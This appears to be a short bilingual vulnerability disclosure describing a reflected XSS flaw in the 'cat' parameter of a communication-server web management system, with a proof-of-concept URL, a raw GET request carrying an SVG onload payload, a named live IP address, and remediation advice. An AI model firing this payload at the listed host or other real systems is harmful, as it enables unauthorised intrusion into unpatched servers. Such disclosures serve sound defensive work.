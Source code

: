 # Communication server web management system cat parameter xss vulnerability

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

http://XXXX//?callback=p5620&cat=cat=%3Csvg%20onload=alert(1)%3E//&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4

```
GET /?callback=p5620&cat=cat=<svg onload=alert(1)>//&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4 HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```



![](8.png)

### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

